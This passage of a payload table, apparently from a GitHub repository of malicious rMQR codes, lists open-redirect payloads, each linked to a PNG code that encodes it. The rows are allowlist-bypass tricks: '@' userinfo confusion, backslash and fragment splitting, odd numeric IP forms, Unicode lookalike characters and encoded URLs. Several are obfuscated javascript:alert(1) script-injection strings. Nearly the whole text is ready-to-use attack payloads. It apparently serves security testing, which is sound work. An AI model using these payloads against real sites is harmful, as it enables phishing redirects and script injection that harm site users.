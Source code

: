 | `http:www.whitelisteddomain.tld@00330.3856078` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/512.png) |
| `http:3H6k7lIAiqjfNeN@00330.3856078` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/513.png) |
| `http:XY>.7d8T\205pZM@00330.3856078` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/514.png) |
| `http:00330.0x3a.54990` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/515.png) |
| `http:www.whitelisteddomain.tld@00330.0x3a.54990` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/516.png) |
| `〱localdomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/519.png) |
| `〵localdomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/520.png) |
| `ゝlocaldomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/521.png) |
| `ーlocaldomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/522.png) |
| `ｰlocaldomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/523.png) |
| `/〱localdomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/524.png) |
| `/〵localdomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/525.png) |
| `/ゝlocaldomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/526.png) |
| `/ーlocaldomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/527.png) |
| `/ｰlocaldomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/528.png) |
| `%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/529.png) |
| `<>javascript:alert(1);` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/531.png) |
| `<>//localdomain.pw` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/532.png) |
| `//localdomain.pw\@www.whitelisteddomain.tld` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/533.png) |
| `https://:@localdomain.pw\@www.whitelisteddomain.tld` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/534.png) |
| `\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/535.png) |
| `\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/536.png) |
| `ja\nva\tscript\r:alert(1)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/537.png) |
| `\152\141\166\141\163\143\162\151\160\164\072alert(1)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/539.png) |
| `http://localdomain.pw:80#@www.whitelisteddomain.tld/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/540.png) |
| `http://localdomain.pw:80?@www.whitelisteddomain.tld/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/541.png) |
| `http://3H6k7lIAiqjfNeN@www.whitelisteddomain.tld+@localdomain.pw/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/542.png) |
| `http://XY>.7d8T\205pZM@www.whitelisteddomain.tld+@localdomain.pw/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/543.png) |
| `http://3H6k7lIAiqjfNeN@www.whitelisteddomain.tld@localdomain.pw/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/544.png) |
| `http://XY>.7d8T\205pZM@www.whitelisteddomain.tld@localdomain.pw/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/545.png) |
| `http://www.whitelisteddomain.tld+&@localdomain.pw#+@www.whitelisteddomain.tld/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/546.png) |
| `http://localdomain.pw\twww.whitelisteddomain.tld/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/547.png) |
| `//localdomain.pw:80#@www.whitelisteddomain.tld/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/548.png) |
| `//localdomain.pw:80?@www.whitelisteddomain.tld/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/549.png) |
| `//3H6k7lIAiqjfNeN@www.whitelisteddomain.tld+@localdomain.pw/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/550.png) |
| `//XY>.7d8T\205pZM@www.whitelisteddomain.tld+@localdomain.pw/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/551.png) |
| `//3H6k7lIAiqjfNeN@www.whitelisteddomain.tld@localdomain.pw/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/552.png) |